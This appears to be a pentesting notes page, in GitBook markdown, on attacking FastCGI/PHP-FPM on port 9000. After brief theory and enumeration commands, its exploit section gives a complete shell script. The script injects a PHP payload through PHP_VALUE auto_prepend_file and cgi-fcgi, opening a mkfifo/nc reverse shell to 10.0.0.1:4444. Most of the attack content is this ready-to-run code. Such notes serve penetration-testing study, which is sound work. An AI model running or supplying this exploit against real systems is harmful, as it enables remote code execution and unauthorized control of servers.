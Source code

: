 ```yaml
---
description: Pentesting FastCGI - TCP Port 9000
---
```


# FastCGI

## Theory

FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses the **9000 port** by default.  **Usually** FastCGI only listen in **localhost and** It's quiet easy to make FastCGI execute arbitrary code.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If the **PHP-FPM (FastCGI Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
#Enum processes
ps aux | cat| grep php-fpm
php-fpm: pool username

#Enum network
ss -lntp
LISTEN 0    511    127.0.0.1:9000    0.0.0.0:*
```
{% endtab %}

{% tab title="Exploit" %}
We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then using the following shell script **"exploit.sh",** we can obtain a reverse shell

{% code title="exploit.sh" %}
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

```
{% endcode %}

Execute it:

```bash
chmod +x exploit.sh
./exploit.sh localhost
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}
